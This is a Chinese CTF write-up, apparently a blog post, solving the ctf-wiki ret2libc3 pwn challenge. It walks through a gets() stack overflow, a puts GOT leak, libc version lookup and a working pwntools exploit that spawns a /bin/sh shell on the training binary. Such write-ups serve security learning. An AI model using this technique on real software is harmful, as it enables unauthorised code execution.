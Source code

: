 ```yaml
---
layout: post
title: CTF-PWN实例5（ret2libc3）
categories: 
 - CTF
 - PWN
 - 二进制
permalink: /pwn/5
nocomments: true  # Disable the comment box. This is EasyBook feature
typora-root-url: ..\_site
---
```


# CTF-PWN实例5（ret2libc3）

## 题目地址：

https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2libc/ret2libc3

## 程序保护：

```shell
$ checksec ret2libc3
```

```shell
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

首先这里依旧开启了NX保护。

## 程序信息：

```shell
$file ret2libc3
ret2libc3: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=c0ad441ebd58b907740c1919460c37bb99bb65df, not stripped
```

依旧动态链接。

## 解题：

### 一、IDA分析程序溢出点

IDA分析main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```

这里依旧是gets()函数造成溢出。但是这里我们可以在函数列表发现system函数。查看此函数的调用点。

```c
void secure()
{
  unsigned int v0; // eax@1
  int input; // [sp+18h] [bp-10h]@1
  int secretcode; // [sp+1Ch] [bp-Ch]@1

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf((const char *)&unk_8048730, &input);
  if ( input == secretcode )
    puts("no_shell_QQ");
}
```

这里的区别在于程序中没有了system函数的调用，这时候我们需要从其他地方调用。

### 二、cyclic和pwndbg判断偏移量

偏移量依然是112，就不做过多篇幅。

### 三、编写EXP

思路：

依然在程序中查找“/bin/sh”字符串，

```
$ ROPgadget --binary ret2libc2 --string '/bin/sh'
Strings information
============================================================
```

发现在程序中找不到相关字符串。

这时候会用到做pwn题经常用到的思路，就是当程序动态链接时，在程序本身找不到利用的函数或参数，我们需要从动态链接文件中获取。

这里先介绍一下我们首先第一步是要通过地址泄露来判断题目服务器所使用的libc版本。

通过pwntools，从plt表中找到puts函数的地址执行，并把got表内的puts地址当成参数。这样就能输出puts函数的地址。

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *

context.log_level = 'debug'
p = process('./ret2libc3')
elf = ELF('./ret2libc3')
if args.G:     #开启调试标记
    gdb.attach(p)
p.sendlineafter('!?','a'*112+p32(elf.plt['puts'])+'aaaa'+p32(elf.got['puts']))

p.interactive()
```

输出结果

```
[DEBUG] Sent 0x7d bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000070  60 84 04 08  61 61 61 61  18 a0 04 08  0a           │`···│aaaa│····│·│
    0000007d
[*] Switching to interactive mode
[DEBUG] Received 0x1d bytes:
    00000000  a0 bc d7 f7  76 84 04 08  86 84 04 08  40 45 d3 f7  │····│v···│····│@E··│
    00000010  60 c3 d7 f7  b6 84 04 08  c6 84 04 08  0a           │`···│····│····│·│
    0000001d
\xa0\xbc��v\x84\x0\x86\x84\x0@E��`�����Ƅ\x0
```

这时候再用libc-database工具查找libc的对应的版本

```
~/ctf/libc-database$ ./find puts ca0
ubuntu-xenial-i386-libc6 (id libc6_2.23-0ubuntu10_i386)
```

下载对应的libc版本放入到exp路径。

之后还需要准备/bin/sh

```
$ ROPgadget --binary libc.so --string '/bin/sh'
Strings information
============================================================
0x0015ba0b : /bin/sh
```

获取主函数地址

```
.text:08048618 ; int __cdecl main(int argc, const char **argv, const char **envp)
.text:08048618                 public main
.text:08048618 main            proc near               ; DATA XREF: _start+17o
.text:08048618
.text:08048618 argc            = dword ptr  8
.text:08048618 argv            = dword ptr  0Ch
.text:08048618 envp
```

准备齐全

exp代码：

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *

context.log_level = 'debug'
p = process('./ret2libc3')
elf = ELF('./ret2libc3')
libc = ELF('./libc.so')
if args.G:     #开启调试标记
    gdb.attach(p)
p.sendlineafter('!?','a'*112+p32(elf.plt['puts'])+'aaaa'+p32(elf.got['puts']))
puts_addr = u32(p.recv(4))
libc_base = puts_addr - libc.symbols['puts']

system_addr = libc_base+libc.symbols['system']

binsh = libc_base+0x15ba0b
p.sendlineafter('!?','a'*112+p32(system_addr)+p32(0x08048618)+p32(binsh))
p.interactive()

```

运行时失败，通过 加参数G 调用gdb调试，然后输入c继续执行。这是会显示栈内返回地址错误，但是栈下面的内容和我们构造一样。这是因为第二次从main执行是偏移出现问题。只需要112-8即可。

## 总结

利用动态链接的libc主要是通过地址泄露找到对应的版本，然后获取到偏移地址。
